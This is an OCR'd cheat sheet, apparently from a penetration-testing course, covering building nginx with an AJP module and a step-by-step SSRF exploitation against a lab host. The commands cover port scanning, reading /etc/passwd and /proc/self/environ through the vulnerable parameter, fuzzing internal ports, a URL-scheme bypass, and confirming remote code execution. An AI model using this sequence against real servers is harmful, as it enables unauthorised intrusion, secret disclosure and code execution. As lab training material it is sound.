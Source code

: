 ## Nginx Reverse Proxy & AJP

|**Command**|**Description**|
|---|---|
|`wget https://nginx.org/download/nginx-1.21.3.tar.gz`|Downloading nginx|
|`tar -xzvf nginx-1.21.3.tar.gz`|Extracting nginx tar file|
|`git clone https://github.com/dvershinin/nginx_ajp_module.git`|Cloning nginx_ajp source code|
|`cd nginx-1.21.3`|Navigating to nginx directory|
|`./configure --add-module=$(pwd)/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules`|Setting up the configuration for building and installing Nginx web server|
|`make`|GNU make utility to maintain groups of programs|
|`sudo make install`|Instructing the make command to execute the installation target defined in the make file|
|`sudo nginx`|Starting the nginx server|

## SSRF Exploitation Example

| **Command**                                                                                                       | **Description**                                                                |
| ----------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| `nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`                                                                | Scanning the ports of the external target                                      |
| `curl -i -s -L http://<TARGET IP>`                                                                                | Interacting with the target and following redirects                            |
| `nc -lvnp 8080`                                                                                                   | Starting a netcat listener to test for SSRF                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`                                         | Testing for SSRF vulnerability                                                 |
| `python3 -m http.server 9090`                                                                                     | Starting the python web server                                                 |
| `sudo pip3 install twisted`                                                                                       | Installing the ftp server                                                      |
| `sudo python3 -m twisted ftp -p 21 -r .`                                                                          | Starting the ftp server                                                        |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`                              | Retrieving a remote file through the target application (HTTP Schema)          |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`                                                       | Retrieving a local file through the target application (File Schema)           |
| `for port in {1..65535};do echo $port >> ports.txt;done`                                                          | Generating a wordlist of possible ports                                        |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`                            | Fuzzing for ports on the internal interface                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`                                                    | Interacting with the internal interface on the discovered port                 |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`                              | Interacting with the internal application                                      |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`                      | Discovering web application listening in on localhost                          |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"`                   | Modifying the URL to bypass the error message                                  |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -`       | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"`        | Retrieving a local file through the target application                         |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code exeuction on the remote host                            |
| `sudo apt-get install jq`                                                                                         | Installing jq                                                                  |
